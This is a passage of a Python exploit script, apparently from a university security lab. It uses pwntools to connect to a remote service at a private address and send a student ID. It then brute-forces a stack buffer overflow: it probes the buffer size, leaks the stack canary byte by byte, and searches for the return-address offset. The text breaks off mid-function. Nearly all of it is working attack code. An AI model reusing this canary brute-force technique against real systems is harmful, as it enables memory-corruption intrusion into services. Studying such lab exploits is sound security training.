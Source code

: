 ## exploit/03.py

```python
from pwn import *
import code
from tqdm import tnrange

context(arch='i386', os='linux', log_level='INFO')
host_addr = '10.15.201.97'
host_port = 8090

p = remote(host_addr, host_port)
p.recvuntil("StudentID:\n")
p.sendline("3180103012")

buf_size = None
canary = None
ra_offset = None
stop_addr = None
# bgadget_addr = None
write_plt = None


def go_to_recv(timeout=pwnlib.timeout.Timeout.default):
    return p.recvuntil('[-] INPUT something darker: \n', timeout=timeout)


def get_buffer_size():
    for i in range(20):
        payload = b'A' * (i + 1)
        go_to_recv()
        p.send(payload)
        if p.recvline()[0:3] == b'[-]':
            log.info("bad buffer size: %d" % buf_size)
        else:  # Crash
            log.info("buffer size: %d" % buf_size)
            return i


def get_canary():
    canary_list = []
    for loop in range(0, 4):
        for i in range(0x100):
            payload = b'A' * buf_size
            for j in range(loop):
                payload += p8(canary_list[j])
            payload += p8(i)

            go_to_recv()
            p.send(payload)
            if p.recvline()[0:3] == b'[-]':
                canary_list.append(i)
                log.info("canary[%d] is 0x%x" % (loop, i))
                break
    return sum(canary_list[i] << (8 * i) for i in range(4))


def get_ra_offset():
    for offset in range(100, -1, -1):
        payload = b'A' * buf_size + p32(canary) + b'\0' * offset

        go_to_recv()
        p.send(payload)
```